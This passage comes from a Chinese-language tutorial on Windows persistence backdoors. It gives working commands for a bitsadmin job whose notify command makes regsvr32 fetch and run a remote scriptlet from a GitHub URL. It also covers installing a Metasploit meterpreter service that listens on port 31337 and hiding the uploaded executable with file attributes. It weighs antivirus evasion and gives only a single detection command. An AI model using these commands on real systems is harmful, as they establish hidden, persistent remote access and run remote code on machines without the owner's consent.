 ### 0x06 bitsadmin后门

Bitsadmin 从 win7 之后操作系统就默认包含，可以用来创建上传或者下载任务。 Bistadmin 可以指定下载成功之后要进行什么命令。后门就是利用的下载成功之后进行命令执行。

```
Copy`#创建一个下载任务：
bitsadmin /create backdoor

#添加文档：
bitsadmin /addfile backdoor c:\windows\system32\calc.exe c:\Users\qiyou\Desktop\calc.exe  //为了方便起见我们直接复制本地文件

#设置下载成功之后要执行的命令：
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"

#执行任务：
bitsadmin /Resume backdoor` 
```

重启电脑之后任务会再一次被激活，大概几分钟之后我们的命令会再次执行，如果我们想让任务完成，可以执行:

```
Copy`bitsadmin /complete backdoor` 
```

优点：系统自带无需上传  
缺点：免杀效果一般  
排查：bitsadmin /list /verbose

### 0x07 自启动服务

自启动服务一般是在电脑启动后在后台加载指定的服务程序，我们可以将 exe 文件注册为服务，也可以将 dll 文件注册为服务

为了方便起见我们可以直接用Metasploit来注册一个服务:

```
Copy`meterpreter > run metsvc -A` 
```

运行之后 msf 会在 %TMP% 目录下创建一个随机名称的文件夹，然后在该文件夹里面生成三个文件：metsvc.dll、metsvc-server.exe、metsvc.exe

[![](http://www.0-sec.org/%E5%AE%89%E5%85%A8%E6%8A%80%E6%9C%AF/Windows%E5%90%8E%E9%97%A8/img/11.png)](http://www.0-sec.org/%E5%AE%89%E5%85%A8%E6%8A%80%E6%9C%AF/Windows%E5%90%8E%E9%97%A8/img/11.png)

同时会新建一个服务，其显示名称为 Meterpreter ，服务名称为 metsvc ，启动类型为"自动"，默认绑定在31337端口。

如果想删除服务，可以执行:

```
Copy`meterpreter > run metsvc -r` 
```

于此同时，我们通过msf上传上去的 exe，为了更加隐蔽，我们可以将 exe 设置为隐藏文件，利用如下命令：

```
Copy`#增加隐藏属性
attrib +h service.exe

#去掉隐藏属性
attrib -h service.exe` 
```
